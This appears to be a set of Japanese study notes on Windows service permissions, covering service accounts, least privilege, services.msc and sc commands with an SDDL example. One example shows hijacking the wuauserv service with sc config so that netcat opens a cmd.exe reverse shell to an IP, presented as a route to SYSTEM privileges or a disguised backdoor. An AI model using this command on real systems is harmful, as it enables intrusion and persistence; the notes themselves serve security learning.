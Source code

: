 ## (2) サービス権限
### ① Windowsサービスの問題
* サービスは長時間実行されるプロセスを管理できるものであり、Windows オペレーティング システムの重要な部分!!!!
* Windows サービスにおけるこれらの脅威ベクトルは、サードパーティソフトウェアによって導入されたサービス権限の誤った構成や、インストール プロセス中に管理者が犯しやすいミスによって発生することがよくある。
*  DHCP や Active Directory ドメイン サービスなどの重要なネットワーク サービスのインストールには、実行する管理者に割り当てられたアカウントを使用してインストールする。これを個人で管理者の権限持つアカウントでやると、そいつが解雇や退職になったときアカウントを消すと、サービスに不具合や停止が起こる。だから、サービスごとの個別アカウントであるサービスアカウントを作る必要がある。
### ② サービスの権限
* services.mscでサービスを調べることができる
* ほとんどのサービスは、既定で LocalSystem権限(LocalのWindowsで最高レベルのアクセス)で実行される
> すべてのアプリケーションがLocalSystemアカウントレベルのアクセス許可を必要とするわけではない
* なんでもそうだけど、権限は最小権限の原則に基づいてやろうね
> https://www.cloudflare.com/learning/access-management/principle-of-least-privilege/
* デフォルトであるビルトインのサービスアカウント
  * LocalService
  * NetworkService
  * LocalSystem

#### services.mscによるサービスの操作
* 全般(General)タブ - そのサービスの説明、開始や停止などの操作や開始パラメータの指定ができる
* ログオン(Log On)タブ - なんのユーザでログオンさせて実行させるかを操作、参照できる。
* 回復(Recovery)タブ - サービスの起動に失敗した際に、どのような処理をするかが設定できる。
![image](https://github.com/user-attachments/assets/649a2d6c-6a9c-488d-8803-eada7227edc2)
こいつは、攻撃者が正当なサービスを利用して悪意のあるプログラムを実行するために使用できるベクトルになる

#### scコマンドを使用したサービスの操作
* サービスの参照(sc qc) - サービスの状況、サービスの設定等が分かる。
> ```
> sc qc %service-name%
> sc qc //%hostname-or-ip% %service-name%   (リモートデバイス上のサービスを照会するとき)
> ```

* サービスの設定の変更(sc config)
> ```
> ◇ サービスの実行ファイルパス設定を変更 
> sc config %service-name% binPath=%exe-param%
> ※binPathには、実行可能ファイルを指定するだけでなく、その実行ファイルへの引数を含めて指定できる
> 例： sc config wuauserv binPath="C:\Windows\nc.exe -e cmd.exe 192.168.1.1"
>
> このように悪用すれば、system権限に昇格したり、サービスにバックドアとかマルウェアとかのプロセスを偽装することができる。
> ```

* サービスの停止、実行(sc stop,sc start)
> ```
> sc stop %service-name%
> sc start %service-name%
> ```
* サービスの権限の確認(sc sdshow) SDDL形式で表示される
> ```
> sc sdshow wuauserv
> D:(A;;CCLCSWRPLORC;;;AU)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SY)S:(AU;FA;CCDCLCSWRPWPDTLOSDRCWDWO;;;WD)
> ```
#### 表示形式(SDDL)
* 形式：ACLタイプ:(ACEタイプ;継承フラグ;アクセスマスク;オブジェクトGUID;継承オブジェクトGUID;SID)...
